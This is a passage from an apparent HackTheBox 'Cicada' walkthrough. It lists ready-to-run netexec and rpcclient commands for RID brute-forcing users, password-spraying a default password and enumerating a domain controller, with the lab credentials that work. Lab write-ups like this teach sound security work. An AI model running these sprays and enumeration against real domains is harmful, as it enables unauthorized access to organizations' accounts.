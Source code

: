 I'll do some linux magic to get them clean outputted in a file.
```bash
netexec smb cicada.htb -u 'randomuser' -p '' --rid-brute | cut -d ":" -f2 | cut -d " " -f2 > users.txt
```

and now I can use this file for my password spray attack, for this too I will use `netexec`

as we are not interested in Successful Guest logins I'll filter them out
```bash
netexec smb cicada -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success | grep -v '(Guest)'
SMB                      10.129.227.95   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB                      10.129.227.95   445    CICADA-DC        [-] CICADA\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB                      10.129.227.95   445    CICADA-DC        [-] CICADA\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB                      10.129.227.95   445    CICADA-DC        [-] CICADA\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB                      10.129.227.95   445    CICADA-DC        [-] CICADA\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB                      10.129.227.95   445    CICADA-DC        [-] CICADA\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB                      10.129.227.95   445    CICADA-DC        [-] CICADA\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB                      10.129.227.95   445    CICADA-DC        [+] CICADA\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB                      10.129.227.95   445    CICADA-DC        [-] CICADA\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB                      10.129.227.95   445    CICADA-DC        [-] CICADA\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
```

With this I have now a working set of credentials:
`michael-wrightson` / `Cicada$M6Corpb*@Lp#nZp!8`

## authenticated LDAP Enumeration for AD
With valid credentials against AD I can read out more information from the Domain Controller and it's database. I'll use `rpcclient` to query some more stuff. 
> You can use enum4linux again with this valid account but I like to use rpcclient manually from time to time.

```bash
rpcclient cicada -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8'
rpcclient $>
```

now we can query stuff. I'll start by checking info on the users.
```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[john.smoulder] rid:[0x450]
user:[sarah.dantelia] rid:[0x451]
user:[michael.wrightson] rid:[0x452]
user:[david.orelious] rid:[0x454]
user:[emily.oscars] rid:[0x641]
```
 you can check the User object by using the commando `queryuser <username>`
